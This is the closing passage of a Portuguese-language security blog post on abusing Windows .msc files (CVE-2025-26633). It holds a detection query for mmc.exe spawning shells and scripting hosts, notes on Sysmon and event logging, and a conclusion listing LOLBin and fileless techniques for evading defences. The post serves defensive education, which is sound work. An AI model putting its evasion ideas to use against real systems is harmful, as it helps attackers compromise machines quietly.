level: high
 query

(EventID = 1 && Image ends '\mmc.exe' && (ParentImage ends '\cmd.exe','\powershell.exe','\pwsh.exe','\wscript.exe','\cscript.exe','\sh.exe','\bash.exe','\reg.exe','\regsvr32.exe') && CommandLine regex 'Windows\\s+\\\\System32') || (EventID = 4688 && ParentProcessName ends '\mmc.exe' && (NewProcessName ends '\cmd.exe','\powershell.exe','\pwsh.exe','\wscript.exe','\cscript.exe','\sh.exe','\bash.exe','\reg.exe','\regsvr32.exe'))
```
<figure style="text-align: center;">
  
  <figcaption><i><strong>Figura 10.</strong> Identificação do ataque pelo EventID 1 do Sysmon.</i></figcaption>
</figure>

<figure style="text-align: center;">
  
  <figcaption><i><strong>Figura 11.</strong> Identificação do ataque pelo EventID 4688 do Windows pelo Channel Securiy.</i></figcaption>
</figure>

É necessário que tenha Sysmon instalado e o log de auditoria do `EventID 4688` habilitado também. Além do mais, conseguimos ver a execução dos comandos em PowerShell pelo `EventID 4104` que é o log de auditoria do Channel `Microsoft-Windows-PowerShell/Operational`.

Além do mais, você pode desenvolver regras auxiliares para pegar outros tipos de comportamento parecidos com esse, até mesmo identificar conexões a IPs externos com origens de pastas temporárias. Veja o exemplo abaixo de como podemos identificar conexão a IP externo a partir da pasta Temp:

<figure style="text-align: center;">
  
  <figcaption><i><strong>Figura 12.</strong> Identificação de conexão com IP externo por meio do EventID 3 do Sysmon.</i></figcaption>
</figure>

Também podemos identificar através do `EventID 1` outras situações, como processo iniciado a partir da pasta Temp, tendo como processo pai o powershell e até mesmo criação de processo a partir da pasta Temp tendo como diretório pai o System32, como mostro na **Figura 13** abaixo:

<figure style="text-align: center;">
  
  <figcaption><i><strong>Figura 13.</strong> Identificação de conexão com IP externo por meio do EventID 3 do Sysmon.</i></figcaption>
</figure>

# 7. Conclusão

Essa simulação demonstrou como funcionalidade legítimas podem ser exploradas para fins maliciosos, quando combinadas com técnicas de engenharia social e criatividade. Ao construir um cenário realista com estágios bem definidos, desde o phishing até a execução final do payload, foi possível observar como a cadeia de ataque se desenrola discretamente e, muitas vezes, sem levantar alertas imediatos.

Essa exploração pode ser desenvolvida por outras formas mais criativas e diversos outros métodos, como utilizar LOLBins (Living Off The Land Binaries). Por exemplo, em vez de invocar o powershell.exe diretamente, utilizar mshta.exe para carregar scripts remotos, rundll32.exe para executar funções de DLLs customizadas, ou até regsvr32.exe com arquivos SCT hospedados, mantendo a cadeia mais furtiva e compatível com bypass de defesas tradicionais.

Além disso, o dropper pode ser refeito para carregar payloads por meio de técnicas fileless, utilizando WMI ou até abusando de scripts embutidos em tarefas agendadas e registros do Windows. O importante é compreender que o .msc aqui funciona como um launcher, e o conteúdo HTML dentro dele pode servir como ponte para qualquer comando possível no Windows — desde que bem encapsulado.

Por fim, reforça-se a importância de monitorar o uso do mmc.exe em contextos anômalos, especialmente quando estiver abrindo arquivos .msc fora de seu comportamento padrão, iniciando conexões web ou spawnando shells. A engenharia feita aqui, mesmo que simplificada para fins educacionais, reforça como a combinação de funções nativas do sistema e um mínimo de interação do usuário ainda são suficientes para comprometer um ambiente. Conhecer a técnica é o primeiro passo para preveni-la.

# 8. Referências

1. [CVE-2025-26633: How Water Gamayun Weaponizes MUIPath using MSC EvilTwin](https://www.trendmicro.com/en_us/research/25/c/cve-2025-26633-water-gamayun.html)
2. [Will the real #GrimResource please stand up? – Abusing the MSC file format](https://www.outflank.nl/blog/2024/08/13/will-the-real-grimresource-please-stand-up-abusing-the-msc-file-format/)
3. [Living Off The Land Binaries, Scripts and Libraries](https://lolbas-project.github.io/)
4. [View Object object](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/mmc/view-object)
5. [View::ExecuteShellCommand method](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/mmc/view-executeshellcommand)
6. [CVE-2025-26633 - MSC EvilTwin PoC](https://github.com/sandsoncosta/CVE-2025-26633)



Por favor, entre em contato comigo pelo meu <a href="https://www.linkedin.com/in/sandsoncosta">LinkedIn</a>.<br>Vou ficar muito contente em receber um feedback seu.


[^1]: Living Off The Land Binaries, Scripts and Libraries
[^2]: Antecipando uma coisinha, eu tentei utilizar o `certmgr.msc`, por exemplo, e obtive o mesmo resultado. A ideia de usar o `WmiMgmt.msc` é puramente técnico, raramente ele é utilizado. Pelo menos eu nunca vi ninguém usando ele via GUI.

